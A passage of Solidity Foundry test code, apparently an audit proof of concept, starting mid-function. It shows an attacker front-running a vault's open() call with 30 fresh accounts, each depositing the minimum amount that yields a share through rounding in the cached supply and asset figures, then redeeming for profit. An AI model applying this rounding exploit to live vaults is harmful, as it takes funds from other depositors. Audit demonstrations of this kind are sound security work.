 ```solidity

    //-> Users request deposits for `15e18` assets
    vm.prank(protocolUsers);
    vaultTested.requestDeposit(15e18, protocolUsers, protocolUsers, "");

    //-> The attacker frontruns the call to `open()` and knows that:
    //- The current epoch cached `totalSupply` of shares will be `vaultTested.totalSupply()` + 1 + 1
    //- The current epoch cached `totalAssets` will be 12e18 + 1 + 1
    uint256 totalSupplyCachedOnOpen = vaultTested.totalSupply() + 1 + 1; //Current supply of shares, plus 1 used as virtual share, plus 1 added by `_convertToAssets`
    uint256 totalAssetsCachedOnOpen = vaultTested.lastSavedBalance() + 1 + 1; //Total assets passed as paremeter to `open`, plus 1 used as virtual share, plus 1 added by `_convertToAssets`
    uint256 minToDepositToGetOneShare = totalAssetsCachedOnOpen / totalSupplyCachedOnOpen;

    //-> Attacker frontruns the call to `open()` by requesting a deposit with multiple fresh accounts
    uint256 totalDeposited = 0;
    for(uint256 i = 0; i < 30; i++) {
        address attackerEOA = address(uint160(i * 31000 + 49*49)); //Random address that does not conflict with existing ones
        deal(address(asset), attackerEOA, minToDepositToGetOneShare);
        vm.startPrank(attackerEOA);
        asset.approve(address(vaultTested), type(uint256).max);
        vaultTested.requestDeposit(minToDepositToGetOneShare, attackerEOA, attackerEOA, "");
        vm.stopPrank();
        totalDeposited += minToDepositToGetOneShare;
    }

    //->Vault gets opened again with 0 profit and 0 losses (for simplicity)
    vm.startPrank(vaultOwner);
    vaultTested.open(vaultTested.lastSavedBalance());
    vm.stopPrank();

    //-> Attacker claims his deposits and withdraws them immediately for profit
    uint256 totalRedeemed = 0;
    for(uint256 i = 0; i < 30; i++) {
        address attackerEOA = address(uint160(i * 31000 + 49*49)); //Random address that does not conflict with existing ones
        vm.startPrank(attackerEOA);
        vaultTested.claimDeposit(attackerEOA);
        uint256 assets = vaultTested.redeem(vaultTested.balanceOf(attackerEOA), attackerEOA, attackerEOA);
        vm.stopPrank();
        totalRedeemed += assets;
    }

    //->❌ Attacker is in profit
    assertGt(totalRedeemed, totalDeposited + donation);
}
```
